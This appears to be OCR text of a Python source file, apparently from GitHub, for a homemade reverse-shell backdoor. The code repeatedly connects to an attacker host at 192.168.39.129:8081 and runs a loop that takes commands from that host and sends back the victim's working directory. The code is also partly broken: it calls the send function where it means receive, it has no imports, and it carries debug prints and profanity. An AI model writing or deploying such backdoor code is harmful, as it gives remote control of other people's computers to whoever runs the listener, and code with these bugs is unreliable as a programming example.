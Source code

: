 def reliable_recv():
    print("Reliably reieved")
    data = ""
    while True:
        try:
            print(data)
            data = data + connection_to_attacker.recv(1024).decode().rstrip()
            return json.loads(data)
        except ValueError:
            continue

def reliable_send(data):
    print("Reliably Recved")
    json_data = json.dumps(data)
    connection_to_attacker.send(json_data.encode())

def shell():
    print("Inside the shell functions")
    while True:
        command = reliable_send()
        print("Command Recieved")
        if command == 'terminate':
           connection_to_attacker.close()
           break
        elif command == 'pwd':
            try:
                print("HEEEEEEEEEEEE")
                files = os.getcwd()
                files = str(files)
                print(files)
                reliable_send(files)
            except:
                pass
        elif command == 'clear':
            pass
        else:
            print("FuckOff")
                

def connection():
    while True:
        print("connection sending")
        #random.randint(5,15)
        time.sleep(5)
        try:
            print("Trying to send connection to the attacker")
            connection_to_attacker.connect(("192.168.39.129", 8081))
            print("call To the shell function")
            shell()
            connection_to_attacker.close()
            break
        except:
            connection()

connection_to_attacker = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connection()
